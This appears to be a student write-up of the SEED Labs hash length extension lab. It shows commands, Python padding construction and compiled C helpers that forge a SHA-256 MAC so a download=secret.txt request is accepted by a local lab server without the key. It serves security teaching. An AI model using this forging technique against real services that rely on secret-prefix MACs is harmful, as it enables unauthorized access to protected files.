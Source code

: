 ```yaml
---
title: Hash Length Extension Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_20.04/Files/Crypto_Hash_Length_Ext/Crypto_Hash_Length_Ext.pdf

# Lab Environment

Set up the container and run it (`www-10.9.0.80`) in the background:

```sh
curl https://seedsecuritylabs.org/Labs_20.04/Files/Crypto_Hash_Length_Ext/Labsetup.zip -o Labsetup.zip
unzip Labsetup.zip
cd Labsetup
dcbuild
dcup -d
```

If necessary, get the running container id by `dockps` and use `docksh <id>` to start a shell on this container.

Add the following entry in `/etc/hosts` *(root privilege required, try `sudo vi /etc/hosts`)*:

```
10.9.0.80 www.seedlab-hashlen.com
```

# Task 1

Construct and send a benign request to the server:

1. Pick up a `uid` with its key value from `Labsetup/image_flask/app/LabHome/key.txt` instead of using a real name, for example, I choose the entry `1001:123456` in this task.
2. Calculate the MAC of the key concatenated with request content `R`, that is

```
Key:R = 123456:myname=koji&uid=1001&lstcmd=1
```

Suppose that the name used here is "koji" and it requests for listing all the files in `LabHome` folder.

So the MAC is calculated as:

```sh
echo -n "123456:myname=koji&uid=1001&lstcmd=1" | sha256sum
#66357225216e2e9d1eb27b44fcfaa4c60f9955a7f1318ce5e757c9ef07e6c92d  -
```

Thus the complete request is:

```
http://www.seedlab-hashlen.com/?myname=koji&uid=1001&lstcmd=1&mac=66357225216e2e9d1eb27b44fcfaa4c60f9955a7f1318ce5e757c9ef07e6c92d
```

*Don't use `curl` or `wget`, it doesn't support. Just open a Firefox browser via VNC client and visit the url link above.*

The web looks like:

![](./lstcmd.png)

For a download request, we take a similar strategy to construct:

```
http://www.seedlab-hashlen.com/?myname=koji&uid=1001&lstcmd=1&download=secret.txt&mac=35e5980662296f9ab0456211ec02f0274fc0a70ed6a6e3c68f8995be4f2e6e62
```

![](./download.png)

# Task 2

Construct the padding for 
```
123456:myname=koji&uid=1001&lstcmd=1
```

Use Python REPL to complete this work:

```sh
python
>>> payload = bytearray("123456:myname=koji&uid=1001&lstcmd=1",'utf8')
>>> len(payload)
36
>>> length_field = (len(payload)*8).to_bytes(8,'big')
>>> padding = b'\x80' + b'\x00'*(64-len(payload)-1-8) + length_field
>>> print(''.join('\\x{:02x}'.format(x) for x in padding))
\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x20
# for url-encoding
>>> print(''.join('%{:02x}'.format(x) for x in padding))
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%20
```

# Task 3

Compile and run [`calculate_mac.c`](./calculate_mac.c), in which [`SHA256_Update`](./calculate_mac.c#L9) takes the padding bytes we obtained in [previous task](#task-2) followed by `&download=secret.txt` as the second argument.


```sh
gcc calculate_mac.c -o calculate_mac -lcrypto
./calculate_mac
```

It gives:

```
14797c6db7ca0309d20e0b3c54ac19df60861a83fe64b2713a45e18469b5f3fc
```

---

If it reports an error as:

```
gcc: error: calculate_mac.c: No such file or directory
```

try:

```
sudo apt install libssl-dev
```

---

Then, visit

```
http://www.seedlab-hashlen.com/?myname=koji&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%20&download=secret.txt&mac=14797c6db7ca0309d20e0b3c54ac19df60861a83fe64b2713a45e18469b5f3fc
```

![](./padding.png)

# Task 4

Alternatively, to distinguish from the existing work, we turn to apply the `1002:983abe` as `mackey-uid` and "MUR" as current username.

A legitimate request to list files without MAC value:

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1
```

can be calculated by

```sh
echo -n "983abe:myname=MUR&uid=1002&lstcmd=1" | sha256sum
# 3a286321c4cb101ce172c1377a75a4ccf46ad9ff4fc8680ec582fa1d004da2e2  -
```

Assume that we have already observed the full request URL as

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1&mac=3a286321c4cb101ce172c1377a75a4ccf46ad9ff4fc8680ec582fa1d004da2e2
```

But we do not know the mac key of it. So we use [`length_ext.c`](./length_ext.c) to obtain the MAC after appending `"&download=secret.txt"` argument. Compile and run:

```sh
gcc length_ext.c -o length_ext -lcrypto
./length_ext
# bcea031dd94604d9b84e4886aab8e083b6ba2ec66f50316555cf1cb451bf4aed
```

Then, construct the padding of the original message as [task-2](#task-2), recall that we don't know what the mac key exactly is but we know the length of keys are fixed, so we can easily calculate the padding:

```sh
python
>>> payload = bytearray("******:myname=MUR&uid=1002&lstcmd=1",'utf8')
>>> length_field = (len(payload)*8).to_bytes(8,'big')
>>> padding = b'\x80' + b'\x00'*(64-len(payload)-1-8) + length_field
>>> print(''.join('%{:02x}'.format(x) for x in padding))
%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%18
```

So the full request is:

```
http://www.seedlab-hashlen.com/?myname=MUR&uid=1002&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%18&download=secret.txt&mac=bcea031dd94604d9b84e4886aab8e083b6ba2ec66f50316555cf1cb451bf4aed
```

![](./mur.png)

